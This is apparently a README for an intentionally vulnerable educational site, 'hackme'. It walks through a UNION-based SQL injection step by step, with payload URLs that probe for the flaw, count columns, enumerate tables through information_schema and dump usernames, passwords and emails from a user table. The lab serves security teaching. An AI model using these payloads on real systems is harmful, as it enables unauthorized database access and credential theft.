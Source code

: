 hackme
======

website for code vulnerability testing (educational purposes only)

### sql injection steps

1. Check for vulnerability

    http://hackme.dev/?id=%27

2. Find the number of columns

wait for error

    http://hackme.dev/?id=1 order by 1
    ...
    http://hackme.dev/?id=1 order by 7

3. check union select to identify columns

    http://hackme.dev/?id=1 union all select 1,2,3,4,5,6

4. identify table names

    http://hackme.dev/?id=1 union all select 1,table_name,3,4,5,6 from information_schema.tables

5. get columns from user table

    http://hackme.dev/?id=1 union all select 1,column_name,3,4,5,6 from information_schema.columns where table_name='user'

6. now select * from user table

    http://hackme.dev/?id=1 union all select 1,username,password,email,5,6 from user


more examples here:
http://www.exploit-db.com/papers/13045/
